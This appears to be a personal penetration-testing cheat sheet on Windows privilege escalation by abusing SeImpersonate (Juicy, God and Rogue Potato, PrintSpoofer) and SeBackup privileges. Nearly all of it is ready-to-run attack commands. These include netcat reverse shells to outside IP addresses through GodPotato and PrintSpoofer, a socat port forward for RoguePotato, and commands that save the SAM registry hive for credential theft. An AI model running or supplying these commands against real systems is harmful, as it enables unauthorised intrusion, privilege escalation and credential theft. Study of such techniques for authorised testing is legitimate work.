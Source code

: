 ## SEImpersonation
(Potato Exploits / PrintSpoofer) (this may fail troubleshoot by trying more than 3 - 5 times and check juggernaut blog and then conclude any decision)
Mostly works when you are service user  
```
whoami/priv  
```
SeImpersonate Privileges Enabled?  
If not np we can simulate as service account  
```
PSExec64.exe -i -u "ntauthority\localservice" C:\PrivEsc\reverse.exe
```
Check OS Version
```
>= Win 10 1809 & Windows Server 2019 - ROGUEPOTATO < Win 10 1809 < Windows server 2019 - JUICYPOTATO  
> Win 10 1607 & Server 2016 - 2019 present
```
#### Juicy Potato
- Start listener for reverse.exe
```
JuicyPotato.exe -t * -p reverse.exe -l 443
```
#### God Potato
```
.\godpotato.exe -cmd "C:\Windows\Temp\nc64.exe 192.168.45.197 4433 -e cmd"
```
another
```
godpotato.exe -cmd "nc.exe -t -e C:\Windows\System32\cmd.exe 192.168.45.182 445"
```
#### PrintSpoofer 
```
PrintSpoofer.exe -c "C:\TOOLS\nc.exe 10.10.13.37 1337 -e cmd"
```
#### Rogue Potato
```
sudo socat tcp-listen:135,reuseaddr,forktcp:10.10.146.246:9999 
```
(we are opening a port in kali accepting connections and forwarding it to 9999)
    
start netcat listener with reverse.exe port
```
C:\PrivEsc\RoguePotato.exe -r 10.8.66.109 -e "C:\PrivEsc\reverse.exe" -l 9999
```
#### Token Impersonation
```
sc query spooler  
PrintSpoofer.exe -i -c cmd
or  
PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i
```
## SEBackup Privileges Present
```
whoami /priv  
SeBackupPrivilege disabled? Enable it  
File Transfer those two dll  
Import-Module .\SeBackupPrivilegeUtils.dll  
Import-Module .\SeBackupPrivilegeCmdLets.dll  
Set-SeBackupPrivilege  
Get-SeBackupPrivilege  
cd c:\  
mkdir Temp  
reg save hklm\sam c:\Temp\sam  
```